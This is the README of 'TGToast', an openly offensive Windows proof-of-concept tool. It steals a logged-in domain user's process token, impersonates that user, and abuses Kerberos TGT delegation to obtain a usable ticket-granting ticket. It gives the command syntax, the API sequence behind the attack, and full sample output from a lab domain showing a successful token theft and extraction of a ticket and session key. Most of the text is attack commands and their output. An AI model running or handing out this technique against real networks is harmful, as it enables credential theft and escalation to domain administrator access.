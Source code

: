 # TGToast

```
 .\TGToasty.exe

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/


Tool to perform TGT delegation abuse, with token stealing capabilities.

Usage: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe <option> [arguments]

Options:
  /list                                 Lists processes from other domain users.
  /steal <PID> <domain> <spn> [/enctype:TYPE]   Steals token, impersonates, and runs tgtdelegation.

  Encryption types (optional): aes256 (default), aes128, rc4

  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local
  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local /enctype:aes256

```
## Purpose
The goal is to *impersonate* a user who is connected to a machine that is controlled by an attacker and recover their TGT. You need *elevated privileges* on the host.

First, we will steal a token from another user (for example some juicy *Domain Admins*). Then, we will use the *TGTDeleg technique*, which abuses the Kerberos GSS-API to retrieve a usable TGT for the current user. Next, *AcquireCredentialsHandle()* is used to retrieve the user's Kerberos security credentials. Then, *InitializeSecurityContext()* is called with the ISC_REQ_DELEGATE flag and a target SPN (such as HOST/DC.domain.com) to prepare a delegation context to be sent to the DC. This results in an AP-REQ in the GSS-API output containing a KRB_CRED structure in the authenticator field that includes the TGT.

## Usage
### List
```
./TGToast.exe /list

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[*] Current User: NORTH\eddard.stark
[*] Searching for processes belonging to other DOMAIN users...

PID    | User                                     | Process Name
----------------------------------------------------------------------------
2944   | NORTH\robb.stark                         | sihost.exe
596    | NORTH\robb.stark                         | svchost.exe
3080   | NORTH\robb.stark                         | taskhostw.exe
3272   | NORTH\robb.stark                         | ctfmon.exe
3524   | NORTH\robb.stark                         | explorer.exe
3760   | NORTH\robb.stark                         | ShellExperienceHost.exe
3840   | NORTH\robb.stark                         | SearchUI.exe
3956   | NORTH\robb.stark                         | RuntimeBroker.exe
4068   | NORTH\robb.stark                         | RuntimeBroker.exe
3120   | NORTH\robb.stark                         | RuntimeBroker.exe
968    | NORTH\robb.stark                         | smartscreen.exe
4860   | NORTH\robb.stark                         | mstsc.exe
```

### TGToasting
```
./TGToast.exe /steal 3524 north.sevenkingdoms.local CIFS/winterfell.north.sevenkingdoms.local

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[+] SeDebugPrivilege enabled.
[*] Attempting to steal token from PID 3524...
[+] Successfully stole token from user: NORTH\robb.stark
[*] Successfully impersonating user. Now attempting TGT delegation abuse...
----------------------------------------------------------------------------
[+] Target Domain (for reference): north.sevenkingdoms.local
[+] Target SPN: CIFS/winterfell.north.sevenkingdoms.local
[+] Successfully obtained a handle to the current credentials set!
[+] Successfully initialized the Kerberos GSS-API!
[+] The delegation request was successful! AP-REQ ticket is now in the GSS-API output.
[+] Successfully invoked LsaCallAuthenticationPackage! The Kerberos session key should be cached!

[+] AP-REQ output:
YI...(snip)...91pPYw==

[+] Kerberos session key:
Ab1lnjT...(snip)...pEcFY=

[+] Encryption:
AES256

[+] tgtdelegation succeeded under impersonated context!
----------------------------------------------------------------------------
[*] TGT delegation attempt finished. Reverting to original identity.
```

## ToDo
- Code rework, the current code is a poc, not the definitive code (and it's ugly)
- Fix: /list (foreign domain users are not shown).
- Extract TGT from ap-req using Session Key

## Credits
Many thanks to these projects, all I did was put the ideas together.
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs](https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs)
- [https://github.com/connormcgarr/tgtdelegation/tree/master](https://github.com/connormcgarr/tgtdelegation/tree/master)
